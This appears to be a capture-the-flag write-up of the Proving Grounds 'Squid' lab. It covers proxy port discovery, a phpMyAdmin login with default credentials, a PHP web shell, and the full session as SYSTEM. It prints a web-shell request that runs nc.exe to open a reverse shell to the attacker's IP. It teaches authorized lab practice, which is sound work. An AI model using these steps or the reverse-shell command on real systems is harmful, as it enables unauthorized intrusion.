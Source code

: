 ```yaml
---

categories: [ Proving Grounds, Practice ]
tags: [ Squid, spose, RFI, PrivEsc, default_creds]
media_subpath: /assets/images/
image:
  path: "Pasted image 20240621220859.png"
  width: "1200"
  height: "630"
  alt: Windows Easy Level Machine
description: Proving Ground Practice Easy Level Machine ! you gona learn about Squid Connections and RFI.
---
```


## Port Scan Results ⤵️

```bash
┌──(kali🔥kali)-[~/Downloads/Proving_Ground/Practice/Squid]
└─$ sudo nmap -sC -sV -p- -vv -T4 -oN Nmap_Results.txt -Pn 192.168.156.189
Nmap scan report for 192.168.156.189
Host is up, received user-set (0.10s latency).
Scanned at 2024-06-21 21:28:43 IST for 250s
Not shown: 65529 filtered tcp ports (no-response)
PORT      STATE SERVICE       REASON          VERSION
135/tcp   open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 125 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack ttl 125
3128/tcp  open  http-proxy    syn-ack ttl 125 Squid http proxy 4.14
|_http-server-header: squid/4.14
|_http-title: ERROR: The requested URL could not be retrieved
49666/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-06-21T16:02:15
|_  start_date: N/A
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 54801/tcp): CLEAN (Timeout)
|   Check 2 (port 30810/tcp): CLEAN (Timeout)
|   Check 3 (port 12856/udp): CLEAN (Timeout)
|   Check 4 (port 29016/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_clock-skew: 0s

```
{: .nolineno}
## Squid Enumeration ⤵️

This Squid http proxy allows us to access the connection on different port using certain Tool like `spose.py` and `Burpsuite`.

For further Information I used [hacktricks](https://book.hacktricks.xyz/network-services-pentesting/3128-pentesting-squid).

```bash
┌──(kali🔥kali)-[~/…/Proving_Ground/Practice/Squid/spose]
└─$ python3 spose.py --proxy http://192.168.156.189:3128 --target 192.168.156.189
Using proxy address http://192.168.156.189:3128
192.168.156.189 3306 seems OPEN 
192.168.156.189 8080 seems OPEN 
```
{: .nolineno}

As I ran `spose.py` Tool It gave me redirect port but to access that I need to setup the proxy from `burpsuite` as port 3128.

![Image](Pasted%20image%2020240621214633.png)

So I accessed http://192.168.156.189:8080 and got access to a Wampserver page.

![Image](Pasted%20image%2020240621214721.png)

Now I also got phpmyadmin on this machine I login in it with default creds and checked for any SQL command execution.

![Image](Pasted%20image%2020240621214850.png)

I also got to know the file system at which this site is hosted upon from `phpinfo.php` page.

![Image](Pasted%20image%2020240621220444.png)
I used the SQL for RFI and it worked like this 🔻

![Image](Pasted%20image%2020240621220511.png)

I got command execution now as `nt authority\system`.

![Image](Pasted%20image%2020240621220555.png)
Here is how I got the connection made for a stable shell 🔻

`192.168.156.189:8080/backdoor.php?cmd=nc.exe%20-e%20cmd.exe%20192.168.45.157%20445`

I catch the response on port 445 and I am `nt authority\system` now 🔻

```powershell
┌──(kali🔥kali)-[~/Downloads/Proving_Ground/Practice/Squid]
└─$ rlwrap nc -lvnp 445    
listening on [any] 445 ...
connect to [192.168.45.157] from (UNKNOWN) [192.168.156.189] 49999
Microsoft Windows [Version 10.0.17763.2300]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\wamp\www>whoami
whoami
nt authority\system

C:\wamp\www>cd C:\Users\Administrator
cd C:\Users\Administrator

C:\Users\Administrator>tree /f /a
tree /f /a
Folder PATH listing
Volume serial number is 5C30-DCD7
C:.
+---3D Objects
+---Contacts
+---Desktop
|       proof.txt
|       
+---Documents
+---Downloads
+---Favorites
|   |   Bing.url
|   |   
|   \---Links
+---Links
|       Desktop.lnk
|       Downloads.lnk
|       
+---Music
+---Pictures
+---Saved Games
+---Searches
\---Videos

C:\Users\Administrator>type Desktop\proof.txt
type Desktop\proof.txt
ebe9584613557c8c2c915cce5570c6dd

C:\Users\Administrator>cd ../
cd ../

C:\Users>cd ..
cd ..

C:\>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 5C30-DCD7

 Directory of C:\

06/21/2024  08:57 AM                34 local.txt
06/21/2024  08:57 AM             2,697 output.txt
05/28/2021  04:20 AM    <DIR>          PerfLogs
05/28/2021  06:06 AM    <DIR>          Program Files
05/28/2021  03:53 AM    <DIR>          Program Files (x86)
11/23/2021  09:48 AM    <DIR>          Squid
05/28/2021  03:53 AM    <DIR>          Users
11/23/2021  01:05 PM    <DIR>          wamp
11/19/2021  12:12 AM    <DIR>          Windows
05/28/2021  06:04 AM    <DIR>          Windows10Upgrade
               2 File(s)          2,731 bytes
               8 Dir(s)   8,782,487,552 bytes free

C:\>type local.txt
type local.txt
ade423e4b0f6672bc92c319e93de8e66

C:\>
```
{: .nolineno}


I am `nt authority\system` Now !!










> If you have any questions or suggestions, please leave a comment below.
> Thank You ! 
{: .prompt-tip }